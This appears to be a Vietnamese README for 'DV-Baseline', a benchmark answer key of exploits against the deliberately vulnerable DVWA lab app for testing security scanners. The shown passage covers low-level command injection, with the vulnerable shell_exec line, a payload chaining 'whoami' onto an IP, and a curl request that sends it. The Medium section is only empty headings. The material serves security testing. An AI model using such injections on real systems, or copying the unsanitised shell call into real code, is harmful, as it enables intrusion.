 # DV-baseline

Tài liệu này (**"DV-Baseline"**) được xây dựng nhằm mục đích thiết lập một **"Ground Truth" (Sự thật nền)** chi tiết, có thể kiểm chứng và định lượng được cho ứng dụng Damn Vulnerable Web Application (DVWA).

Mục tiêu chính là cung cấp một bộ dữ liệu tham chiếu (*benchmark dataset*) chuẩn hóa để đo lường, so sánh và xác thực hiệu suất của các công cụ quét bảo mật ứng dụng động (DAST) và các giải pháp phân tích bảo mật tự động khác.  
Tài liệu này đóng vai trò là **"bảng đáp án"** để đánh giá:

- **Độ phủ (Coverage):** Khả năng phát hiện các lỗ hổng ở các mức độ phức tạp khác nhau (*Low, Medium, High*).

- **Độ chính xác (Accuracy):** Khả năng phân biệt giữa lỗ hổng thực sự (*True Positive*) và các báo động giả (*False Positive*) bằng cách phân tích cấp độ *"Impossible"*.  

- **Độ sâu (Depth):** Khả năng vượt qua (*bypass*) các cơ chế phòng vệ (*filter*) cơ bản và nâng cao của công cụ.

# Command Injection - OWSAP Injection
## Security level: low
### Method 

-   Phân tích mã nguồn cho thấy `parameter` 'ip' được truyền trực tiếp vào `shell_exec()` mà không qua bất kỳ bộ lọc nào.

### Mã nguồn gây lỗi (Vulnerable Code):

```
$cmd = shell_exec( 'ping  -c 4 ' . $target );
```
### Các bước khai thác (Proof of Concept):

- **Payload:**  
```bash
127.0.0.1 && whoami
```

- **Lệnh `curl`:**  
```bash
curl -X POST 'http://[DVWA_IP]/vulnerabilities/exec/' \
     -b 'security=low; PHPSESSID=[YOUR_SESSION_ID]' \
     -d 'ip=127.0.0.1 && whoami&submit=Submit'
```

- **Kết quả mong đợi:**  
Trang web trả về kết quả của lệnh `whoami` (ví dụ: `www-data`).
### Screenshots

<img width="2559" height="1335" alt="image" src="https://github.com/user-attachments/assets/b001397c-d73f-40af-a211-0b7a1e1088c1" />

## Security level: Medium
### Method 
### Mã nguồn gây lỗi (Vulnerable Code)
### Các bước khai thác (Proof of Concept)
### Screenshots
### Mô tả



